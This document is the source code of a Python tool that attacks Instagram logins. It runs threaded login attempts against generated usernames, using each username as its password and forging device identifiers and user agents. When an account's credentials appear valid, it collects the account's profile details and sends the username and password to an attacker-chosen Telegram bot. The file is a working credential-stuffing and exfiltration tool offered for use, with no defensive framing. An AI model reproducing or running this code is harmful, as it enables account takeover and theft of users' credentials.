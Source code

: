 import requests, time, random, uuid, secrets,os,datetime
from urllib.parse import urlencode
import requests, os, random, json
from uuid import uuid4
from threading import Thread
from instagramtolle import instagram
from ms4 import InfoIG
#— — — — — — — — — — — — —
an = datetime.datetime.now()
an2 = datetime.datetime(2025, 5, 7, 0, 00, 00)
if an > an2 or an == an2:
        exit("\n Tool I stopped • @PyWaTa ")
else:
        pass
#— — — — — — — — — — — — —
session = requests.Session()
good, bad, sec = 0, 0, 0
R, G, Y, C, W, S = '\033[91m', '\033[92m', '\033[93m', '\033[96m', '\033[97m', '\033[0m'
#— — — — — — — — — — — — —
tokf=input(' - Enter Token : ')
idf=input(' - Enter Id : ')
#— — — — — — — — — — — — —
def info(username, password):
    h=InfoIG.Instagram_Info(username)
    name=h['Name']
    user=h['Username']
    id=h['ID']
    fol=h['Followers']
    folg=h['Following']
    bio=h['Bio']
    post=h['Posts']
    privet=h['Is Private']    
    try:
        reset_status = instagram.Reset(username).get("data", {}).get("reset", 'Unknown')
    except:
        reset_status = 'Unknown'
    msg = f'''
- New Secure Insta 
— — — — — — — — — — — — —
< User - {username} >
< Pass - {password} >
< Reset - {reset_status} >
< Name - {name} >
< Followers - {fol} >
< Following - {folg} >
< Bio - {bio} >
< Id - {id}
< Posts - {post} >
< Privet - {privet} >

< programmer - @PyWaTa >
— — — — — — — — — — — — —
'''
    try:
        requests.post(f"https://api.telegram.org/bot{tokf}/sendMessage", data={"chat_id": idf, "text": msg})
    except:
        pass
#— — — — — — — — — — — — —                
def generate_data():
    rnd = str(random.randint(150, 999))
    Blockversion = secrets.token_hex(16)
    IgFamilyDeviceId = uuid.uuid4()
    AndroidID = f'android-{secrets.token_hex(8)}'
    IgDeviceId = uuid.uuid4()
    PigeonSession = f'UFS-{uuid.uuid4()}-0'
    App = ''.join(random.choices('1234567890', k=15))
    user_agent = (
        "Instagram 311.0.0.32.118 Android (" +
        random.choice(["23/6.0", "24/7.0", "25/7.1.1", "26/8.0", "27/8.1", "28/9.0"]) + "; " +
        str(random.randint(100, 1300)) + "dpi; " +
        str(random.randint(200, 2000)) + "x" + str(random.randint(200, 2000)) + "; " +
        random.choice(["SAMSUNG", "HUAWEI", "LGE/lge", "HTC", "ASUS", "ZTE", "ONEPLUS", "XIAOMI", "OPPO", "VIVO", "SONY", "REALME"]) + "; SM-T" +
        rnd + "; SM-T" + rnd + "; qcom; en_US; 545986" + str(random.randint(111, 999)) + ")"
    )
    return Blockversion, IgFamilyDeviceId, AndroidID, IgDeviceId, PigeonSession, App, user_agent
#— — — — — — — — — — — — —
def get_tokens(Blockversion, IgFamilyDeviceId, AndroidID, IgDeviceId, PigeonSession, user_agent):
    data = urlencode({
        'device_id': str(AndroidID),
        'custom_device_id': str(IgDeviceId),
    })

    headers = {
        'X-Pigeon-Session-Id': str(PigeonSession),
        'X-Pigeon-Rawclienttime': str(round(time.time(), 3)),
        'X-Ig-Bandwidth-Speed-Kbps': f'{random.randint(1000, 9999)}.000',
        'X-Ig-Bandwidth-Totalbytes-B': str(random.randint(10000000, 99999999)),
        'X-Ig-Bandwidth-Totaltime-Ms': str(random.randint(10000, 99999)),
        'X-Bloks-Version-Id': str(Blockversion),
        'X-Ig-Device-Id': str(IgDeviceId),
        'X-Ig-Android-Id': str(AndroidID),
        'User-Agent': user_agent,
        'Content-Length': str(len(data)),
    }

    try:
        session.post('https://b.i.instagram.com/api/v1/zr/tokens/', headers=headers, data=data)
    except Exception:
        return None

    headers['X-Ig-Family-Device-Id'] = str(IgFamilyDeviceId)
    try:
        session.post('https://b.i.instagram.com/api/v1/zr/tokens/', headers=headers, data=data)
    except Exception:
        return None

    data2 = f'signed_body=SIGNATURE.%7B%22phone_id%22%3A%22{IgFamilyDeviceId}%22%2C%22usage%22%3A%22prefill%22%7D'
    headers['Content-Length'] = str(len(data2))
    try:
        session.post('https://b.i.instagram.com/api/v1/accounts/contact_point_prefill/',
                     headers=headers, data=data2)
    except Exception:
        return None

    data3 = urlencode({
        'signed_body': 'SIGNATURE.{"bool_opt_policy":"0","mobileconfigsessionless":"","api_version":"3","unit_type":"1","query_hash":"1fe1eeee83cc518f2c8b41f7deae1808ffe23a2fed74f1686f0ab95bbda55a0b","device_id":"'
                       + str(IgDeviceId) + '","fetch_type":"ASYNC_FULL","family_device_id":"' + str(IgFamilyDeviceId).upper() + '"}'
    })
    headers['Content-Length'] = str(len(data3))

    try:
        response = session.post('https://b.i.instagram.com/api/v1/launcher/mobileconfig/',
                                headers=headers, data=data3)
        return response.headers.get('ig-set-x-mid')
    except Exception:
        return None
#— — — — — — — — — — — — —
def login(username, password):
    global good, bad, sec
    Blockversion, IgFamilyDeviceId, AndroidID, IgDeviceId, PigeonSession, App, user_agent = generate_data()
    mid = get_tokens(Blockversion, IgFamilyDeviceId, AndroidID, IgDeviceId, PigeonSession, user_agent)
    if not mid:
        return

    data = {
        "signed_body=SIGNATURE._csrftoken": "missing",
        "adid": str(IgFamilyDeviceId),
        "country_codes": [{"country_code": "7", "source": ["default", "uig_via_phone_id"]}],
        "device_id": str(AndroidID),
        "google_tokens": [],
        "guid": str(IgDeviceId),
        "login_attempt_count": 0,
        "jazoest": str(random.randint(11111, 55555)),
        "phone_id": str(IgDeviceId),
        "username": str(username),
        "enc_password": f"#PWD_INSTAGRAM:0:{round(time.time(), 3)}:{password}"
    }

    headers = {
        'User-Agent': user_agent,
        'x-pigeon-session-id': str(PigeonSession),
        'x-ig-bandwidth-speed-kbps': str(random.randint(10000000, 99999999)),
        'x-bloks-version-id': str(Blockversion),
        'x-ig-device-id': str(IgDeviceId),
        'x-ig-bandwidth-totaltime-ms': str(random.randint(10000, 99999)),
        'x-ig-app-id': str(App),
        'x-mid': str(mid),
        'x-pigeon-rawclienttime': str(round(time.time(), 3)),
        'x-ig-bandwidth-totalbytes-b': str(random.randint(10000000, 99999999)),
        'x-ig-android-id': str(AndroidID),
    }

    try:
        rew = session.post('https://b.i.instagram.com/api/v1/accounts/login/',
                                headers=headers, data=data).text
        if '"challenge_required"' in rew:
            sec += 1
            os.system('clear')
            print(f"""
{W}— — — — — — — — — — — — —
• {C}Secure {W}: {Y}{sec}{S}
• {R}Bad    {W}: {R}{bad}{S}
• {Y}User : {username}

• Response : {rew}
{W}— — — — — — — — — — — — —
""")
            info(username, password)
        else:
            bad += 1
            os.system('clear')
            print(f"""
{W}— — — — — — — — — — — — —
• {C}Secure {W}: {Y}{sec}{S}
• {R}Bad    {W}: {R}{bad}{S}
• {Y}User : {username}

• Response : {rew}
{W}— — — — — — — — — — — — —
""")
    except Exception as w:
        print(f"{R}[ ERROR ]{S} {w}")
#— — — — — — — — — — — — —
def Thi():
    while True:
        try:
            a = instagram.generateUsername2013()
            username = a["data"]["username"]
            password = username
            login(username, password)
        except:
            continue
for _ in range(15):
    Thread(target=Thi).start()
